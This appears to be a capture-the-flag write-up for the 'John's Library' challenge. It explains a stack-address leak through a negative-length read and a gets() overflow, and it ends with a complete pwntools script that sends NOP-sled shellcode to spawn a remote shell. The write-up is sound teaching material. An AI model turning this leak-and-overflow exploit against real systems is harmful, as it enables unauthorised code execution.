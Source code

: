 # John's Library
Do you like reading books? here we have the best collection ever! you can even save some books for future reading!! enjoy noob!

## Recon
We are presented with the following menu upon connection:
```
Welcome to the jungle library mate! Try to escape!!

r - read from library
a - add element
u - exit
```

There is two bits of functionality that we have access to

### Add book to library
```
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title:
8
deadbeef
```
With adding a book, we input two values:
* Length of the text
* The text itself

The interesting bit is that the length of each book is stored in a global array located at `0x804a060`. The text is stored in a buffer located on the stack, that is passed to both the read and add functions as an argument.

### Reading from the library
```
 r - read from library
 a - add element
 u - exit
r
Insert the index of the book you want to read: 0
deadbeef
```

This function takes the index of a book and reads the information stored at that index. This calculation is done by reading the corresponding stored length from `0x804a060 + 4*index`
and adding that length to the beginning of the buffer passed to the function (which is also on the stack).

### Vulnerabilities
There are two bugs in the code.
* The data stored in the buffer is read via a `gets()` call, causing a traditional stack overflow. This is exploited upon exiting the program.
* The length of the book isn't checked for negative. This allows us to arbitrarily read valvues on the stack. It just so happens that the start of the buffer is pushed on the stack as a parameter to both read and add functions. An example stack is below (addresses are not accurate)

```
+-------------------+
| Pointer to buffer | 0x400000
+-------------------+
| .....             |
+-------------------+
| Buf               | 0x40001b
|                   |
|                   |
+-------------------+
```


### Exploit
The stack is randomized on the remote server. We can't hard code the stack address, as we won't know what it is at execution. We have to leak this address.

By supplying a `-0x1b` length for the first book and then reading that book's index, we can actually read the beginning of the buffer, giving us a static address to jump to for our shellcode.


Exploit will work as follows:
* Create a book with `-28` length (data for the book is irrevelent)
* Read that book via index 0 and retrieve the 4 bytes of the stack
* Add a second book, but this time overflow via `gets()` with our shellcode at the beginning of the buffer and returning to our leaked stack address.
* Exit the program via `u`
* ???
* Profit

### Exploit code

```
from pwn import *

"""
Both functions are given a pointer to a stack address (named BUFF)
Add function (overflow):
Drops the given length into a global buffer starting at 0x804a060
There is no negative check, so feeding a negative value passes the check
Vulnerable gets() function drops input into BUFF

Read (mem leak):
Takes the previously given length from add and adds that offset in BUFF
Because we can use negative values, we can looks backwards on the stack
to discover the beginning address of BUFF

Exit (trigger):
The overflow from the add isn't exploited until exiting the program
"""


# r = process('./johns-library')
r = remote('library.polictf.it', 80)

# Debugging help with gdb
'''
gdb.attach(r, """
bp 0x8048640
bp 0x8048742
c
""")
'''

log.info("Setting up leak of buffer")
r.sendline('a')
r.sendline(str(-28)) # Set len to subtract to find original buffer location
r.sendline()

log.info("Leaking buffer")
r.sendline('r')
r.sendline('1')
r.recv()
r.recv()
r.recvuntil('read: ')

ret = r.recv()[:4]

log.info('Got buffer: {}'.format(ret[::-1].encode('hex')))

log.info("Preparing shellcode")
shellcode = '\x90' * 900 + asm(shellcraft.sh())

payload = shellcode
payload += cyclic(cyclic_find('aaks') - len(shellcode))
payload += ret
payload += 'a' * (1000 - len(payload))

log.info("Sending shellcode")
r.sendline('a')
r.sendline(payload)

log.info("Exiting problem, causing the exploit")
r.sendline('u')

log.success("And your shell...")
r.interactive()
```
